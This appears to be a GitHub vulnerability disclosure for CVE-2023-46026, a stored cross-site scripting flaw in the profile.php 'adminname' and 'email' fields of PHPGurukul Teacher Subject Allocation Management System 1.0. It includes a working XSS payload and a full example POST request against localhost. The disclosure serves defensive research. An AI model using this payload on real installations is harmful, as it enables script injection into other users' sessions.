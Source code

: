 # CVE-2023-46026-PHPGurukul-Teacher-Subject-Allocation-Management-System-1.0-Stored-Cross-Site-Scripting-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://phpgurukul.com/teacher-subject-allocation-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=17645
# Overview
+ PHPGurukul Teacher Subject Allocation Management System is susceptible to a critical security vulnerability involving Stored Cross-Site Scripting (XSS) through 'adminname' and 'email' parameters in the /profile.php file. The application fails to adequately sanitize user-supplied data, allowing attackers to inject malicious scripts into the application. This could lead to the execution of arbitrary script code in the browsers of unsuspecting users, potentially compromising their security and privacy within the context of the affected site.
# Vulnerability Details
+ CVE ID: CVE-2023-46026
+ Affected Version: PHPGurukul Teacher Subject Allocation Management System V1.0
+ Vulnerable File: profile.php
+ Parameters: adminname, email
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46026
+ https://nvd.nist.gov/vuln/detail/CVE-2023-46026
# Description
+ The parameters 'adminname' and 'email' in the profile.php file of PHPGurukul Teacher Subject Allocation Management System V1.0 are susceptible to Stored Cross-Site Scripting (XSS). This vulnerability arises due to insufficient input validation and sanitation of user-supplied data. An attacker can exploit this weakness by injecting malicious scripts into these parameters, which, when stored on the server, may be executed when other users view the affected user's profile.
# Proof of Concept (PoC) : 
+ Go to the admin profile page and click to Submit button to update
+ Intercept the POST request to profile.php via Burp Suite
+ Inject the payload to the vulnerable parameters
+ Payload: `"><svg/onload=alert(document.domain)>`
+ Example request for `adminname` parameter
```
POST /Tsas/admin/profile.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Origin: http://localhost
Connection: close
Referer: http://localhost/Tsas/admin/profile.php
Cookie: PHPSESSID=<some-cookie-value>
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

adminname=SuperAdmin"><svg/onload=alert(document.domain)>&username=admin&email=admin%40gmail.com&mobilenumber=5689784592&submit=
```
+ Go to the profile page and trigger the XSS --> `http://localhost/Tsas/admin/profile.php`
<img width="1447" alt="image" src="https://github.com/ersinerenler/phpgurukul-Teacher-Subject-Allocation-Management-System-1.0/assets/113091631/cbcd8230-be94-46c0-b4b9-3ee73193bbdb">
